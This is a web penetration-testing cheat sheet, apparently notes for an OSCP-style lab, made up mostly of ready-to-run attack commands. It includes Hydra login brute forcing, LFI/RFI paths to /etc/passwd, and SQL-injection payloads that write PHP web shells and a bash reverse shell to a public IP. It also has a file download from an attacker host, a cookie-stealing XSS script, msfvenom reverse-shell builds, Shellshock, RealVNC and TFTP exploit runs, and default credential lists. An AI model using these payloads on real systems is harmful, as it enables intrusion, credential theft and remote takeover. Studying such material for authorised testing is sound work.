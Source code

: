 ## Web Login form Brutefocing 
HTTP Hydra	
```sh
hydra -l admin -P /usr/share/wordlist/SecList/Passwords/10k_most_common.txt 192.168.88.162 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

## PUT method	
```sh
nmap -sV --script http-put --script-args http-put.url=’/test/meterpreter4444.php’,http-put.file=’/root/Exam0119/pwd/192.168.111.149/meterpreter4444.php’ -p 80 192.168.111.149
nmap –script http-methods –script-args http-methods.url-path=’/uploads’,http-methods.test-all -p 8585 172.28.128.3
```


## Starting Web Service
```sh
//Attacker usually uses this to transfer files
python -m SimpleHTTPServer 8080
python3 -m http.server 80"
```

## Nmap Scanning for Web Service(HTTP/HTTPS)
```sh
nmap -PN -p 22 --open -oG - 10.11.1.* | awk '$NF~/ssh/{print $2}'
nmap 10.11.1.* -p22,80 --open -oG - | awk '/22\/open.*80\/open/{print $2}'
nmap 10.11.1.* -p80,8080 --open -oG - | awk '/80\/open.*8080\/open/{print $2}'
nmap -p 80,8080 10.11.1.1-255
```
## - **Uniscan Scanning** <br />
```sh
uniscan.pl -u target -qweds
```

## - **HTTP Enumeration** <br />
```sh
httprint -h http://www.example.com -s signatures.txt
```

## - **Directory Traversal** <br />
//to navigate and find any sub directories.
Dirbuster	Wordlist : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```sh
dirb http://10.11.1.202 /usr/share/dirb/wordlists/vulns/iis.txt
gobuster -u http://10.11.1.133/ -w /usr/share/wordlists/dirb/common.txt -q -n -e
dirb http://10.11.1.133/index/sips/ /usr/share/dirb/wordlists/
./dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $targetip -e php"
//cf. https://github.com/maurosoria/dirsearch

//removing status code for 200,204,301,307,403; 
gobuster -s 200,204,301,307,403 -u http://192.168.88.168 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
nikto	"nikto -h 192.168.88.132
nikto -h http(s)://[IP]:[PORT]/[DIRECTORY] 
nikto -C all -h http://10.11.1.72"
LFI	"https://www.youtube.com/watch?v=rs4zEwONzzk
lfisuite.py
browse.php?file=php://filter/convert.base64-encode/resource=ini.php
browse.php?file=php://filter/convert.base64-encode/resource=browse.php
echo -n encodedstrings | base64 -d
browse.php?file=/etc/passwd
index.php?file=
Under phpinfo.php : file_uploads On On : which means LFI exploit enabled"
"Squid
proxy"	"scanner/http/squid_pivot_scanning
RHOST : Target
RANGE : Target
RPORT : Squid port 

msf auxiliary(scanner/http/squid_pivot_scanning) > run
[+] [192.168.88.155] 192.168.88.155 is alive but 21 is CLOSED
[+] [192.168.88.155] 192.168.88.155:80 seems OPEN
if the target uses squid proxy via 3128 port, use nikto with that proxy setting 
nikto -h 192.168.88.155 -useproxy http://192.168.88.155:3128"
"shellshock
34900.py"	"nikto scan results; shows shellshock on /cgi-bin; use 34900.py 
root@kali:~/Exam/Sicos1# python 34900.py payload=reverse rhost=192.168.88.155 lhost=192.168.88.157 lport=1234
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/status"
MySQL	 nmap -sV -Pn -vv –script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.0.0.1 -p 3306
SQL injection	"mysql -h 192.168.88.152 -D wordpress -u root -p plbkac
OPEN A REVERSE SHELL
' union select ""<?php exec(\""/bin/bash -c \'bash -i >& /dev/tcp/159.203.242.172/1999 0>&1\'\"");"" INTO OUTFILE '/var/www/ecustomers/samshell4.php' #
UPLOAD A FILE
' union select ""<?php file_put_contents(\""root\"", file_get_contents(\""http://attack.samsclass.info/root\"")); ?>"" INTO OUTFILE '/var/www/ecustomers/samget2.php' #
OPEN A PHP SHELL
' union select ""<?php system($_REQUEST['cmd']); ?>"" INTO OUTFILE '/var/www/ecustomers/samshell.php' #"


IIS 	"nitko scan results; IIS version; windows OS version can be revealed
dirb http://10.11.1.72 /usr/share/dirb/wordlists/common.txt
auxiliary/admin/http/iis_auth_bypass"
"Tomcat
tomcat/tomcat"	"/manager/index.html
http://10.11.1.209:8080/manager/html
upload msfvenom jsp or war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.37 LPORT=443 -f war > shell.war
root@kali:~/PWK-Lab/10.11.1.209# jar -xvf shell.war"
PHP + DB cred files	"/etc/mysql/my.cnf 
/var/www/html/config.php"
SQL injection	"https://sql--injection.blogspot.com/p/the-process.html
https://grosquildu.github.io/pentests/web/"
Cookie stealing xss	"<script> new Image().src=""http://10.11.0.42:81/bogus.php?output=""+document.cookie; </script> 
"
"wordpress
(needs to use new kali)"	"wpscan --url http://10.11.1.71/ -enumerate p
wpscan --url 10.0.2.4 --enumerate vp
wpscan --url https://192.168.88.152:12380/blogblog -enumerate u --disable-tls-checks
wpscan --url http://192.168.88.179/wordpress/ --wordlist /usr/share/wordlists/rockyou.txt
wpscan --url https://192.168.88.152:12380/blogblog/ --enumerate ap --disable-tls-checks
wpscan --url www.local.test --enumerate u --threads 50
lets find a username ; https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32
find a password(autoscript) : https://github.com/claudioviviani/bash-wordpress-xml-bruteforce
https://www.sunnyhoi.com/hack-wordpress-website-using-wpscan-metasploit/
elliot has administrative access on WP, which means we can easily change 404.php file with a reverse shell. Go to Appearance -> Editor and swap the 404.php code with your modified revsh. Make sure you change the IP and PORT in the php file. Then start a listener and hit a random page like http://192.168.1.72/idontexist."
"phpMyAdmin
http://*.*.*.*/phpmyadmin
db and password located @
/etc/phpmyadmin/config-db.php"	"cred(root/blank)(pma/blank)
hydra 10.10.10.43 -l admin -P /usr/share/dict/rockyou.txt http-post-form ""/department/login.php:username=^USER^&password=^PASS^:Invalid Password!""
upload malicious database as .php 
ref : http://hackingandsecurity.blogspot.com/2017/08/proj-12-exploiting-php-vulnerabilities.html
SQL-phpshellscript : 
(1)Once login, clilck SQL and ""Run SQL query/queries on server ""localhost"":"" and provide beblow sql-query to create (shell).php script.
Windows : SELECT ""<?php system($_GET['cmd']); ?>"" into outfile ""C:\\xampp\\htdocs\\shell.php""
Linux : SELECT ""<?php system($_GET['cmd']); ?>"" into outfile ""/var/www/html/shell.php""
(2) now visit http://192.168.1.101/DBlocation/shell.php?cmd=ipconfig
(3) if you wanna hav better shell; ?cmd=wget%20192.168.1.102/shell.php"
CURL | base encode/decode	"curl -s http://192.168.88.168/index.php
root@kali:~$echo jeff | base64
amVmZgo=
root@kali:~$echo -n VXNlcm5hbWU6 |base64 -d
Username:"
RFI	"https://github.com/3mrgnc3/LFIter2/blob/master/lfitr2.py
https://www.youtube.com/watch?v=rs4zEwONzzk
browse.php?file=http://10.11.0.42/index.html
browse.php?file=ftp://10.11.0.42/index.html
browse.php?expect://ls
gain a shell via phpinfo.php https://office.tuxcon.com/root/web-sec-payloads/src/commit/fd99da6c06e00a596becdcfc6d2efe50bad0f47c/File%20Inclusion%20-%20Path%20Traversal
phpinfolfi.py or https://github.com/D35m0nd142/Kadabra/blob/master/phpinfo.py
needs to update the shell and browse.php part etc. 
instruction : https://www.youtube.com/watch?v=rs4zEwONzzk"
Webdav 	"nmap -T4 -p80 --script=http-iis-webdav-vuln 10.11.1.229
cf. auxiliary : webdav_test
davtest -url http://10.11.1.229
[webhsell]msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.42 LPORT=443  -f asp > shells.asp 
[webhsell]/usr/share/webshells/asp/cmdasp.asp
cadaver http://10.11.x.x/webdav/
dav:> put shells.txt
Uploading shells.txt to `shells.txt':
dav:> copy shells.txt shells.asp;.txt"
ColdFusion	"Version check : http://example.com/CFIDE/adminapi/base.cfc?wsdl
LFI(passowrd file) : http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
(either - neo-security.xml and password.properties)
ref * https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
exploit/windows/http/coldfusion_fckeditor - only for 8.0.1"
XAMPP	cred(wampp/xampp)
RealVNC	"https://www.exploit-db.com/exploits/36932
Edit, BIND_ADDR into mine and BIND_PORT into 4444
root@kali:~/PWK-Lab/10.11.1.227$python RealVNC-exploit-36932.py 
[*] Please input an IP address to pwn: 10.11.1.227
[*] Hello From Server: RFB 003.008
Ctrl+Alt+Shift+Del will be vmware's ctrl+alt+del"
Drupal	cred(admin/admin)
Elastix	"cred(admin/admin) http://example.com/vtigercrm/ 
You might be able to upload shell in profile-photo."
SuirrelMail	"https://raw.githubusercontent.com/xl7dev/Exploit/master/SquirrelMail/SquirrelMail_RCE_exploit.sh
RFI : http://10.11.1.115/webmail/src/read_body.php?mailbox=/etc/passwd&passed_id=1&"
	
AT-TFTP 1.9 version	"https://github.com/brianwrf/cve-2006-6184
1.perl -e 'print """"\x81\xec\xac\x0d\x00\x00""""' > stackadj
2.msfvenom -p windows/shell/reverse_nonx_tcp LHOST=10.11.0.37 LPORT=443 R > payload
3.cat stackadj payload > shellcode
4. cat shellcode | msfvenom -e x86/shikata_ga_nai -b """"\x00"""" -a x86 --platform win -f python"
